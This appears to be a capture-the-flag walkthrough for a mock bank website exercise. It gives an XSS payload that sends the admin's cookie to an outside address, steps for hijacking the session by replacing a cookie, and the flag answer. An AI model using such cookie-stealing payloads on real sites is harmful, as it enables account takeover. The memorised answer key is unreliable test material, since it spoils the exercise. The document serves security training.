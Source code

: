# 📦 Unsafe Deposit Box - L11 C08

Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

**Tip:** Get admin access to the site to get the flag.

```txt
💡 Hint: You must find a way to get the administrator's cookie sent to your web server address,
   then create the cookie with the right values and refresh the page for access.
```

## Step by Step

- Enter `<script>document.location='?data='http://126.34.285.59:726%2bdocument.cookie</script>` in the name field of the form and hit submit
- You should get a message at the top telling you that the admin cookie is `32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`
- Head to the cookies tab in the developer tools
- Replace the value of the `deposit_user` cookie with the obtained admin cookie and refresh the site
- This will give you the flag

`flag: x3kUszVcPCsT0ai5flui`
